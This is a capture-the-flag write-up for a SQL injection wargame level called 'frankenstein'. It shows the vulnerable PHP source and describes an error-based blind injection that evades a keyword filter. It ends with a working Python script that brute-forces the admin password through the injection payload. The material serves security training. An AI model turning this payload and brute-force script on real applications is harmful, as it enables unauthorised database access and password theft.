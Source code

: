 # frankenstein
```php
<?php
  include "./config.php";
  login_chk();
  $db = dbconnect();
  if(preg_match('/prob|_|\.|\(|\)|union/i', $_GET[pw])) exit("No Hack ~_~");
  $query = "select id,pw from prob_frankenstein where id='frankenstein' and pw='{$_GET[pw]}'";
  echo "<hr>query : <strong>{$query}</strong><hr><br>";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if(mysqli_error($db)) exit("error");

  $_GET[pw] = addslashes($_GET[pw]);
  $query = "select pw from prob_frankenstein where id='admin' and pw='{$_GET[pw]}'";
  $result = @mysqli_fetch_array(mysqli_query($db,$query));
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("frankenstein");
  highlight_file(__FILE__);
?>
```
Here we have to brute force the admin's password. But we cannot use brackets or `union`. We are also not getting the outputs. We are only getting if there is an error or not. So we have to find a way to cause error when the characters are not correct. So we use `~0+1` which will return an error `BIGINT UNSIGNED value is out of range in '(~(0) + 1)'`. We are also using `CASE {} WHEN THEN {} ELSE` to cause the error only when the characters are not correct. SO we wrote a script to bruteforce it. 

```python
import requests
from string import digits, printable

session = requests.Session()
cookies = {"PHPSESSID": "t3ph90fkrspl4c71i1b8re936n"}
l=8
print("Length :", l)
url = "https://los.rubiya.kr/chall/frankenstein_b5bab23e64777e1756174ad33f14b5db.php?pw=' or case when id like 'a%25' and pw like '{}%25' or id like 'f%25' and pw like '%25' then 1 else ~0%2b1 end--+"
pw = ""
for j in range(l):
    for i in printable:
        r = requests.get(url.format(pw+i), cookies=cookies)
        if('error' not in r.text[-10:] and i not in "#+%&"):
            pw += i
            print("Password : {}".format(pw), end='\r')
            break
print("Password :", pw)
```
This will give the password as `0dc4efbb`